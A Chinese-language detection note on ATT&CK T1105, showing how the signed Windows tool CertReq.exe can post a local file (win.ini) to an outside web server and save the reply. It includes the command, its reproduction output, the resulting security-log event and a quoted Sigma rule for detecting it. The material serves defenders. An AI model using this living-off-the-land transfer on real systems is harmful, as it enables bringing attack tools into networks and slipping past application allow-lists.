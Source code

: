 # T1105-win-入口工具转移-CertReq.exe(白名单)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例

CertReq.exe用于从证书颁发机构请求证书 (CA) ，从CA检索对以前的请求的响应，从.inf文件创建新请求，以接受和安装对请求的响应，以从现有CA证书或请求构造交叉认证或限定的次序请求， 并签署交叉认证或限定的下级请求。

**路径:**

```YML
- C:\Windows\System32\certreq.exe
- C:\Windows\SysWOW64\certreq.exe
```

将来自www.baidu.com的HTTP POST的响应内容保存到端点上，输出output.txt在当前目录中。

```YML
CertReq -Post -config https://www.baidu.com/ c:\windows\win.ini output.txt
```

用例：从 Internet 下载文件
所需权限：用户
操作系统：Windows Vista、Windows 7、Windows 8、Windows 8.1、Windows 10

## 检测日志

windows安全日志

## 测试复现

```YML
C:\Users\liyang\Desktop\asptest>CertReq -Post -config https://www.baidu.com/ c:\windows\win.ini output.txt
OK
HTTP/1.1 200 OK
Cache-Control: max-age=86400
Date: Mon, 18 Apr 2022 06:28:15 GMT
Content-Length: 19825
Content-Type: text/html
Expires: Tue, 19 Apr 2022 06:28:15 GMT
Last-Modified: Wed, 10 Mar 2021 06:27:44 GMT
Accept-Ranges: bytes
ETag: "4d71-5bd28c3bf7800"
P3P: CP=" OTI DSP COR IVA OUR IND COM "
Server: Apache
Set-Cookie: BAIDUID=4305E8F795AE7B64177F5105CD755190:FG=1; expires=Tue, 18-Apr-23 06:28:15 GMT; max-age=31536000; path=/; domain=.baidu.com; version=1
Vary: Accept-Encoding,User-Agent
```

## 测试留痕

```YML
已创建新进程。

  

创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x1778

新进程名称: C:\Windows\System32\certreq.exe

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0x24b4

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: CertReq  -Post -config https://www.baidu.com/ c:\windows\win.ini output.txt
```

## 检测方法/思路

参考Sigma官方规则:

```yml
title: Suspicious Certreq Command to Download

id: 4480827a-9799-4232-b2c4-ccc6c4e9e12b

status: experimental

description: Detects a suspicious certreq execution taken from the LOLBAS examples, which can be abused to download (small) files

author: Christian Burkard

date: 2021/11/24

references:

- https://lolbas-project.github.io/lolbas/Binaries/Certreq/

logsource:

category: process_creation

product: windows

detection:

selection:

Image|endswith: '\certreq.exe'

CommandLine|contains|all:

- ' -Post '

- ' -config '

- ' http'

- ' C:\windows\win.ini '

condition: selection

fields:

- CommandLine

- ParentCommandLine

tags:

- attack.command_and_control

- attack.t1105

falsepositives:

- Unlikely

level: high

-   [](https://github.com/ "GitHub")

```

### 建议

从Sigma给出的规则来看，更多的是对进程和命令行参数进行监测，只要出现其中一个命令参数即告警。

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

CertReq.exe

<https://lolbas-project.github.io/lolbas/Binaries/Certreq/>

certreq使用方法

<https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/certreq_1>

Sigma:win_susp_certreq_download

<https://github.com/SigmaHQ/sigma/blob/eb8c9c046b86e7d412bdcc3235693fa1c00f70d6/rules/windows/process_creation/win_susp_certreq_download.yml>